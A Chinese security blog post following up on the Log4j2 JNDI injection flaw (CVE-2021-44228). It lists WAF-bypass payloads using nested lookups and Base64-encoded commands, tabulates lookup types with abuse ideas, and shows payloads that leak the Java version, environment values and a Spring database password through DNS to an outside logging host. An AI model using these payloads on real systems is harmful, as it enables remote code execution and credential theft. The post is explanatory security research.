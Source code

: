 本篇是上一篇的续篇，主要是对上一篇中的额外内容进行补充

上一篇地址：[log4j2 变量注入漏洞(CVE-2021-44228)](https://www.cnblogs.com/erosion2020/p/18583981)

## 漏洞绕过

这里主要补充一下知道服务可以触发log4j2漏洞，但是漏洞无法被利用的情况，然后罗列了一些常见的绕过方法。

### 绕过WAF防御

有的WAF在漏洞出现后针对提出 `${` 、`jndi`、`ldap`、`rmi` 等关键词规则的防护。但研究后发现都会存在被绕过问题。比如上次我们分析的payload是这样的：

> ```
> ${jndi:ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=}
> ```

在WAF中这样的参数就会被拦截，然后这里总结了一下网上师傅们给出来的其他绕过payload:

```
${${a:-j}ndi:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${a:-j}n${::-d}i:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${lower:jn}di:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${lower:${upper:jn}}di:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${lower:${upper:jn}}${::-di}:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
```



### 协议总结

log4j2中其实支持了很多种关键字协议，比如：

{date, ctx, lower, upper, main, env, sys, sd, java, marker, jndi, jvmrunargs, event, bundle, map, log4j}

以下是一个简化版的表格，列出了 Log4j 2.x 常见的协议类型及其含义：

| 协议类型       | 描述                                             | 可能的漏洞利用方式                            |
| -------------- | ------------------------------------------------ | --------------------------------------------- |
| **date**       | 格式化当前日期和时间                             | 攻击者通过控制日期格式影响日志显示或隐藏信息  |
| **ctx**        | 上下文信息（日志事件相关的元数据）               | 控制上下文信息，可能触发恶意日志格式化操作    |
| **lower**      | 转换为小写                                       | 可以用来绕过大小写敏感的过滤或安全检查        |
| **upper**      | 转换为大写                                       | 同 `lower`，绕过大小写检查                    |
| **main**       | 主日志记录器，控制大部分日志记录行为             | 控制主日志记录器，可能影响日志行为            |
| **env**        | 环境变量（如 `JAVA_HOME`、`PATH`）               | 通过环境变量注入恶意信息或改变日志行为        |
| **sys**        | 访问系统属性（如 `os.name`, `user.home`）        | 操控系统属性进行恶意注入或信息泄露            |
| **sd**         | 自定义诊断信息                                   | 通过操控诊断信息注入恶意内容，触发攻击        |
| **java**       | 引用 Java 类和对象，可能触发 RCE                 | 可能导致恶意 Java 类加载，引发远程代码执行    |
| **marker**     | 日志事件的标记，帮助筛选日志                     | 控制日志标记，影响日志筛选或行为              |
| **jvmrunargs** | JVM 启动参数，影响 JVM 启动时的配置              | 攻击者操控 JVM 启动参数，可能绕过安全机制     |
| **event**      | 捕获特定的日志事件，通常用于事件数据处理         | 通过操控日志事件，注入恶意代码                |
| **bundle**     | 与 Java Bundle 相关，涉及打包信息                | 通过操控打包信息注入恶意代码，可能触发攻击    |
| **map**        | 键值对，可能与应用配置或参数传递相关             | 操控 Map 中的键值对注入恶意数据，影响日志行为 |
| **log4j**      | Log4j 内置的功能，涉及日志库的配置和操作         | 可能利用 Log4j 配置或格式化漏洞触发攻击       |
| **jndi**       | JNDI 协议（Java Naming and Directory Interface） | 利用 JNDI 查找触发远程代码执行 (RCE) 漏洞     |

github上有个师傅给了很详细的有用信息和针对这些变量的利用方式：https://github.com/jas502n/Log4j2-CVE-2021-44228

### 信息泄露

这里总结一下大致的利用手法，然后写几个利用漏洞来泄露信息的示例。

1. 泄露Java版本：通过嵌套标签携带信息出来，Log4j2是在substitute方法中递归解析表达式，所以可以利用这种嵌套标签，从内到外获取{}中的内容，然后分配给对应的Lookup做解析，获得信息后通过Dnslog带出

   可以看到这个过程其实是解析出了java的版本，然后尝试去访问了ldap://1.8.0_131.47pdsv.dnslog.cn，虽然本地报错了(访问肯定是错的，因为根本就不匹配)，但是在DNS访问记录中却记录了这一次的访问。

> \${jndi:ldap://${sys:java.version}.47pdsv.dnslog.cn}

![image-20241203185938891](./main.assets/log4j-2-1.png)

2. 泄露操作系统版本

   通过env和sys协议，可以读取到一些环境变量和系统变量，以及Hostname等相关信息。

> \${jndi:ldap://${env:os}.47pdsv.dnslog.cn}

![image-20241203190513579](./main.assets/log4j-2-2.png)

3. bundle(别的师傅写的)

在浅蓝师傅的文章中提到的一种特殊`Lookup`，源码的`BundleLookup`核心内容如下

```
public String lookup(final LogEvent event, final String key) {
    ...
    final String bundleName = keys[0];
    final String bundleKey = keys[1];
    ...
    return ResourceBundle.getBundle(bundleName).getString(bundleKey);
}
```

在通常情况下这个`ResourceBundle`被用来做国际化，网站通常会给一段表述的内容翻译成多种语言。在`SpringBoot`下可能会获取到关键信息，将会比`Sys`和`Env`更严重，但这种情况略显鸡肋，需要手动排除`SpringBoot`自带的日志依赖并加入`Log4j2`的依赖（这种情况可能不多）

通过`${bundle:application:spring.datasource.password}`可以直接拿到数据库密码。

